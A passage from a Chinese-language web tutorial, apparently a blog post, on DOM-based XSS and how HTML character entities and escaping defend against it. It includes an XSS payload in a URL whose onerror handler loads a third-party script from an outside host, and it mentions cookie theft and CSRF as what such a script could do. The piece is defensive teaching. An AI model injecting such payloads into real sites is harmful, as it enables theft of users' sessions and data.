也许你会想，不就是弹窗个 1 吗？还能怎么样？能写多少代码？

那我把地址改成 `www.example.com/user.html?name=<img src=@ onerror='var s=document.createElement("script");s.src="https://mqyqingfeng.github.io/demo/js/alert.js";document.body.appendChild(s);' />` 呢？

就相当于：
```js
document.getElementById("username").innerHTML = "<img src=@ onerror='var s=document.createElement(\"script\");s.src=\"https://mqyqingfeng.github.io/demo/js/alert.js\";document.body.appendChild(s);' />";
```
整理下其中 onerror 的代码：
```js
var s = document.createElement("script");
s.src = "https://mqyqingfeng.github.io/demo/js/alert.js";
document.body.appendChild(s);
```
代码中引入了一个第三方的脚本，这样做的事情就多了，从取你的 cookie，发送到黑客自己的服务器，到监听你的输入，到发起 CSRF 攻击，直接以你的身份调用网站的各种接口……

总之，很危险。

为了防止这种情况的发生，我们可以将网址上的值取到后，进行一个特殊处理，再赋值给 `DOM` 的 `innerHTML`。
## 字符实体
问题是怎么进行转义呢？而这就要谈到字符实体的概念了。

在 HTML 中，某些字符是预留的。比如说在 HTML 中不能使用小于号（<）和大于号（>），因为浏览器会误认为它们是标签。

如果希望正确地显示预留字符，我们必须在 HTML 源代码中使用字符实体（character entities）。

字符实体有两种形式：
1. `&entity_name;`
2. `&#entity_number;`。

比如说我们要显示小于号，我们可以这样写：`&lt;` 或 `&#60;`

值得一提的是，使用实体名而不是数字的好处是，名称易于记忆。不过坏处是，浏览器也许并不支持所有实体名称（但是对实体数字的支持却很好）。

也许你会好奇，为什么 `<` 的字符实体是 `&#60` 呢？这是怎么进行计算的呢？

其实很简单，就是取字符的 `unicode` 值，以 `&#` 开头接十进制数字 或者以 `&#x`开头接十六进制数字。举个例子：
```js
var num = '<'.charCodeAt(0); // 60
num.toString(10) // '60'
num.toString(16) // '3c'
```
我们可以以 `&#60;` 或者 `&#x3c;` 在 HTML 中表示出 `<`。

不信你可以写这样一段 HTML，显示的效果都是 `<`：
```html
<div>&lt;</div>
<div>&#60;</div>
<div>&#x3c;</div>
```
再举个例子：以字符 '喵' 为例：
```js
var num = '喵'.charCodeAt(0); // 21941
num.toString(10) // '21941'
num.toString(16) // '55b5'
```
在 HTML 中，我们就可以用` &#21941;` 或者 `&#x55b5;` 表示喵，不过“喵”并不具有实体名。
## 转义
我们的应对方式就是将取得的值中的特殊字符转为字符实体。
